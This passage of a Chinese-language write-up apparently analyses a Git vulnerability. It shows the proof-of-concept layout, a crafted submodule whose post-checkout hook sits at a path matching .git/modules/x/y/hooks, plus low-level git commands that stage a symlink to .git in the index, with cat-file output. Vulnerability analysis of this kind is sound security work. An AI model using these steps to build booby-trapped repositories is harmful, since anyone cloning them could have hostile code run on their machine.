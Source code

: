 让我们把几个关键目录罗列以下：

1. 实际存放了`hook`仓库中`.git`的路径

    ```none
    .git/modules/x/y
    ```

2. 存放了被拷贝过来的`hook`仓库内容的路径：

    ```none
    A/modules/x
    ```

3. 从`captain`的视角上看，子模块`hook`仓库中存放`post-checkout`的路径：

    ```none
    A/modules/x/y/hooks/post-checkout
    ```

4. 从`captain`的视角上看，子模块`hook`仓库`.git`中hooks的路径为：

    ```none
    .git/modules/x/y/hooks/
    ```

仔细看会发现，3和4的路径几乎只相差了`A`和`.git`部分，这就是这个漏洞攻击的一个前提。 在完成了布置之后，脚本会执行如下的逻辑：

```shell
$ printf .git >dotgit.txt &&
$ git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
$ printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
```

这里利用了git的比较底层的指令，通过这个操作，能够将`a`作为一个符号链接文件添加到 Git 索引中，符号链接指向 .git。这个操作会存放在git的索引中，**而不会直接在目录中存在**。实际上，这样操作完之后，目录结构如下：

```none
.
├── A
│   └── modules
│       └── x
│           └── y
│               └── hooks
│                   └── post-checkout
├── dot-git.hash
├── dotgit.txt
└── index.info
```

可以发现，这个`a`并不存在，但是在git的**对象管理**中，这个a作为一个对象存放了下来：

```shell
$ git cat-file -p 76d2a0138b
tree ed6455916722fcf6cb5e03bf2602379f6237695f
parent 2e5996a4ad5795e526a53a68bfa24ad11674ccbf
author 1716626132 +0800
committer  1716626132 +0800

add-symlink

$ git cat-file -p ed64559167
100644 blob ccf40c309e227b3ea61e3d3138af32774d5f994a    .gitmodules
040000 tree 41eaba36bec8946d145682993e3efc13877161fa    A
120000 blob 191381ee74dec49c89f99a62d055cb1058ba0de9    a
```
